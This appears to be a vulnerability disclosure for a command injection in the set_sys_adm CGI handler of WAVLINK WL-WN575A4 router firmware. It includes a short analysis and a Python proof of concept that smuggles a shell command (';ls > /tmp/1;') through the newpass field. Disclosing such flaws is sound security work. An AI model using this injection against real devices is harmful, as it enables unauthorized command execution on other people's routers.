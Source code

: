 # command injection

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a command injection in adm.cgi/set_sys_adm

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](2.png)

get value from newpass 

![](3.png)  
split to v30 and call system, cause command injection


## POC
```
url = "http://192.168.0.1/cgi-bin/set_sys_adm.cgi"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={ 'page=sysAdm&newpass=' + payload})
``` 
